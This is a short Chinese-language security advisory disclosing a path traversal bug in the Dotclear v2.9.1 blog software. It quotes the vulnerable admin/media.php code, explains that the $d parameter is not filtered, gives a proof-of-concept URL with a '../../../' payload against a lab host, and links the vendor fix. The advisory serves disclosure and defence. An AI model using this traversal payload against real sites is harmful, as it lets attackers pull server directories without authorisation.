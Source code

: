 ```yaml
---
layout: post
title: Dotclear v2.9.1 路径遍历
---
```


发现者: 陈瑞琦 

发现日期: 2016-08-01

下载地址: [dotclear](https://dotclear.org/download)

作者: dotclear.org

作者通知日期: 2016-08-01

作者联系手段: security@dotclear.net

**描述:** 

Dotclear is an open source blog publishing application distributed under the GNU GPLv2. Developed originally by Olivier Meunier from 2002, Dotclear has now attracted a solid team of developers.[2] It is relatively popular in French speaking countries, where it is used by several major blogging platforms (Gandi Blogs,[3] Marine nationale,[4] etc.).(Wiki)

*渣翻*

Dotclear是一个基于GUN GPLv2的开源博客发布应用。在2002年由Olivier Meunier开发，现在已经吸引了一大个开发团队。在法语国家非常流行，并且为几个大型博客平台所用。


**细节:**

在media.php这儿有个路径遍历问题

/admin/media.php

line 172 ~ line193

`code`

<pre><code>
if (!empty($_GET['zipdl']) && $core->auth->check('media_admin',$core->blog->id))
{
	try
	{
		@set_time_limit(300);
		$fp = fopen('php://output','wb');
		$zip = new fileZip($fp);
		$zip->addExclusion('#(^|/).(.*?)_(m|s|sq|t).jpg$#');
		$zip->addDirectory($core->media->root.'/'.$d,'',true);

		header('Content-Disposition: attachment;filename='.date('Y-m-d').'-'.$core->blog->id.'-'.($d ? $d : 'media').'.zip');
		header('Content-Type: application/x-zip');
		$zip->write();
		unset($zip);
		exit;
	}
	catch (Exception $e)
	{
		$core->error->add($e->getMessage());
	}
}
</code></pre>

在参数$d这儿少了过滤，"../"应该删掉

**PoC**

http://192.168.204.130/dotclear/admin/media.php?popup=0&select=0&zipdl=1&d=../../../

**Fix**

https://hg.dotclear.org/dotclear/rev/282b26727770
